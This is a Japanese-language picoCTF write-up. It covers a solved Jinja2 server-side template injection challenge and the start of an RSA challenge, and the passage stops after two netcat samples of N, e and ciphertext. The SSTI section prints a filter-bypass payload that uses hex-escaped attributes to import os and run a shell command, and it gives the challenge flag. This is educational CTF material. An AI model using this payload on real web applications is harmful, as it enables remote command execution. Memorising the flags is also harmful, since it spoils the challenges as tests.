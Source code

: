 <br />

### Solution

Black list のバイパスがなかなか出来ずに結構試行錯誤をしたのですが、

以下のサイトに書かれているサンプルを使ったら、そのまま行けました。

https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f

<pre>
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
</pre>

<br />

Flag: `picoCTF{sst1_f1lt3r_byp4ss_ece726e9}`



<br /><br />
<br /><br />
## [Crypto]: EVEN RSA CAN BE BROKEN??? (200 points)
- - -
### Challenge
> This service provides you an encrypted flag. Can you decrypt it with just N & e?<br />
Connect to the program with netcat:
<br /><br />
Hint1: How much do we trust randomness?
<br /><br />
Hint2: Notice anything interesting about N?
<br /><br />
Hint3: Try comparing N across multiple requests

<br />

### Solution

Hint を元に、いくつかサンプルを集めて傾向を見ることにしました。

<pre>
$ nc verbal-sleep.picoctf.net 51624
N: 15011597723370625970175278550446842441472820011538256365596832808503849392426362376701897544864203610415636205947277203638791695202994114239414917448991866
e: 65537
cyphertext: 11870742963080785358411730864105202326585637170748591243517262296319996953298655433668433818798404934888882330038339838064138913817733910471654885076976627

$ nc verbal-sleep.picoctf.net 51624
N: 24045499541871971500675444118414331087201949280013008187969606893273730814495825624003150534117378982230294289676472858760526590191230465510897306998995534
e: 65537
cyphertext: 7975568915660088048579382997740376222901530549289757566064178450599924360171059171558200074021506539392061315001920794734320484943667743626436550719451927
